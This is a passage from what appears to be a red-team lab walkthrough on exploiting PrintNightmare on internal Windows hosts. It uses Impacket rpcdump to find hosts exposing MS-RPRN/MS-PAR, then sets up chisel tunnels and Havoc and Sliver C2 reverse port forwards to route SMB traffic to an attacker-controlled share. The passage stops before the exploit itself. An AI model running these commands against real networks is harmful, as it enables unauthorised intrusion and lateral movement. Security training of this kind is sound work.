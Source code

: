 ## The vulnerability was enabled by default on all the Windows versions.

As of 2023 - when **all** the patches are applied, this vulnerability is no longer a threat, but there are many Windows systems out there without them applied. The nightmare is not over.

## Detection

To detect the vulnerability, we could use the Impacket library. We'd connect to the RPC service on the machines and search for relevant information, to check if `MS-RPN` or `MS-PAR` services were enabled.

```
rpcdump.py @10.10.24.100 | egrep "MS-RPN|MS-PAR"
rpcdump.py @10.10.24.101 | egrep "MS-RPN|MS-PAR"
rpcdump.py @10.10.24.102 | egrep "MS-RPN|MS-PAR"
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/24-1.png)

As we can see, machines  `.100,.101,.102` might be vulnerable to Print Nightmare. Let's exploit the vulnerability now.

In order to successfully exploit the vulnerability in the internal network environment, we will need to tunnel the traffic into our SMB share and hijack the TCP SMB port traffic on one of the machines.

Let's create a tunnel from the mail server's port `64000` to our local machine's SMB port.
```
┌──(root㉿kali)-[/home/kali/lateralmovement/chisel]
└─# ./chisel_1.9.1_linux_amd64 client 192.168.57.8:65499 R:64000:0.0.0.0:445
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/25-1.png)

Now, open Havoc C2 and create a port forward from the Windows machine's `64000` to `64000` on the mail server.
```
sleep 0 # Disable sleeping before executing a command, this will speed up the tunnel.
rportfwd add 0.0.0.0 64000 10.10.24.9 64000
```

You can establish port forwarding using Sliver C2, as demonstrated in the following example (we'll cover the framework in the next section):
```
sliver (RIGHT_KARATE) > rportfwd add -b 0.0.0.0:64000 -r 10.10.24.9:64000

[*] Reverse port forwarding 10.10.24.9:64000 <- 0.0.0.0:64000
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/26-1.png)

If you're not using the C2, you can also achieve port forwarding using tools like chisel, SSH, socat, firewalls, routers, or your preferred tool of choice.
